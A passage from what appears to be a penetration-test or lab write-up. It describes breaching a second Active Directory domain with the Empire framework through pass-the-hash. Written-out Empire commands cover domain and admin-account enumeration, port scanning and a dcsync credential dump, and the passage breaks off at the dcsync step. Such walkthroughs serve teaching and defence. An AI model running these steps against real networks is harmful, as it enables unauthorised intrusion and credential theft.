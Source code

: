 ```
(Empire: dcshop) > dir \\10.30.30.88\c$
```

The successful execution of this command indicates that the sysback account has been authenticated, confirming access to the second domain. By leveraging the pass-the-hash technique and successfully acquiring and using sysback's token, we were able to authenticate on the GBSALES domain and perform actions, effectively breaching the second domain.

**Useful notes (Empire modules recap):**

1. get_domain_controller

- Lists all domain controllers within the specified domain (identifies domain controllers in the GBSALES domain, helping to understand the domain’s layout and structure):

```
(Empire: DCshop) > usemodule situational_awareness/network/powerview/get_domain_controller
(Empire: get_domain_controller) > set Domain GBSALES.CORP
(Empire: get_domain_controller) > execute
```

2. get_computer

- Enumerates all Windows hosts in the specified domain (lists all computers in the GBSALES domain to assess the target's scope and identify key servers like SL0210:

```
(Empire: DCshop) > usemodule situational_awareness/network/powerview/get_computer
(Empire: get_computer) > set Domain GBSALES.CORP
(Empire: get_computer) > execute
```

3. portscan

- Performs a port scan on specified hosts (checks for open ports on the SL0210 server to confirm it is reachable and assess potential targets for exploitation):

```
(Empire: DCshop) > usemodule situational_awareness/network/portscan
(Empire: portscan) > set Ports 135
(Empire: portscan) > set Hosts SL0210.GBSALES.CORP
(Empire: portscan) > execute
```

4. get_user

- Lists domain admin accounts in the specified domain (identifies domain admin accounts, revealing potential targets and confirming if the sysback account exists in both domains):

```
(Empire: DCshop) > usemodule situational_awareness/network/powerview/get_user
(Empire: get_user) > set Filter adminCount=1
(Empire: get_user) > set Domain GBSALES.CORP
(Empire: get_user) > execute
```

5. dcsync

- Retrieves password hashes and other credentials from domain controllers (dumps the NTLM hash for the sysback account from the GBSHOP domain, which is then used for pass-the-hash authentication):
